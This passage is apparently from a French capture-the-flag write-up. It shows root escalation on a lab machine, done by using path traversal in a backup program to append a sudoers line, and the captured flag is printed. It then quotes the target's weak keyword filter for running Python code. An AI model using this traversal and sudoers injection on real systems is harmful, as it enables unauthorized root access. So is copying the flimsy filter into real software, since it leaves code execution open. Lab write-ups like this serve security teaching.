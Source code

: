 ```plain

[py@archlinux secret_stuff]$ cat /srv/backups/ree 
hello reeehello hello
goodbye
[py@archlinux secret_stuff]$ ./backup 
Enter a line of text to back up: mytest
Enter a file to append the text to (must be inside the /srv/backups directory): /srv/backups/ree
[py@archlinux secret_stuff]$ cat /srv/backups/ree
hello reeehello hello
goodbye
mytest

```

Il y a plein de méthodes sous Linux pour obtenir une escalade de privilège via l'ajout de lignes dans un fichier (/etc/passwd, crontab, etc), j'ai opté pour le fichier *sudoers*.

```plain

[py@archlinux secret_stuff]$ ./backup 
Enter a line of text to back up: py ALL=(ALL) ALL
Enter a file to append the text to (must be inside the /srv/backups directory): /srv/backups/../../etc/sudoers
[py@archlinux secret_stuff]$ sudo su
[sudo] password for py: 
sudo: su: command not found
[py@archlinux secret_stuff]$ export PATH=/usr/local/bin:/usr/bin:/bin:/sbin:/usr/sbin
[py@archlinux secret_stuff]$ sudo su
[root@archlinux secret_stuff]# cd /root
[root@archlinux ~]# ls
root.txt
[root@archlinux ~]# cat root.txt
63a9f0ea7bb98050796b649e85481845

```

Sous le chapeau
---------------

Dans le fichier [/srv/wsgi/shell.py](file:///srv/wsgi/shell.py "/srv/wsgi/shell.py") on retrouve le code chargé de l'exécution Python, voici un extrait :

```python

def check_if_safe(code: str) -> bool:
	if 'import' in code: # import is too dangerous
		return False
	elif 'os' in code: # os is too dangerous
		return False
	elif 'open' in code: # opening files is also too dangerous
		return False
	else:
		return True

def run_program(raw_form_data) -> (str,str):
	program=""
	stdin=""

	try:
		program=raw_form_data["program"][0]
		stdin=raw_form_data["stdin"][0]
	except KeyError:
		pass

	if check_if_safe(program):
		code_dir="/tmp/"+secrets.token_hex(16)+"/"
```